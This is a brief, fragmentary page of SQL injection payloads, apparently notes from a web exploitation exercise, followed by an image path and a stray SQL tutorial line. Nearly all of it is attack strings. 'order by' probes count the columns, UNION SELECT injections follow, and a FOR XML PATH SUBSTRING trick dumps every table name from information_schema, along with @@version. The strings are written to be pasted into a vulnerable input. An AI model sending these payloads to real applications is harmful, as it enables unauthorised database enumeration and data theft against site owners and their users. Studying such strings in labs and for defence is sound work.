 
'order by 8-- -
AAA 'union select 1,2,3,4,5,6,7-- -

AAA 'union select 1,table_name,3,4,5,6,7 from  information_schema.tables-- -

select table_name from  information_schema.tables

SELECT CONCAT("SQL ", "Tutorial ", "is ", "fun!") AS ConcatenatedString; 
table_name from  information_schema.tables

Select SUBSTRING( 
( select table_name from  information_schema.tables FOR XML PATH('')), 
2 , 9999) As tables

AAA 'union select 1, SUBSTRING( 
( select table_name from  information_schema.tables FOR XML PATH('')), 
2 , 9999),3,4,5,6,7-- -


```
@@version


```